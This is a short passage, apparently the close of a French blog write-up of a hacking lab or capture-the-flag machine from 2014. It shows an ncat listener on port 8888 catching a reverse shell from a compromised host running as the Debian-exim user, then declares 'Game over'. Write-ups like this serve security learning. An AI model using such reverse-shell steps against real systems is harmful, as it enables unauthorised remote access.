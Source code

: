 ```plain
> ncat -l -p 8888 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 192.168.1.95.
Ncat: Connection from 192.168.1.95:38799.
id
uid=102(Debian-exim) gid=102(Debian-exim) groups=102(Debian-exim)
```

On ne tombe pas directement root mais ça évite toute la partie web...  

Game over

*Published April 15 2014 at 21:01*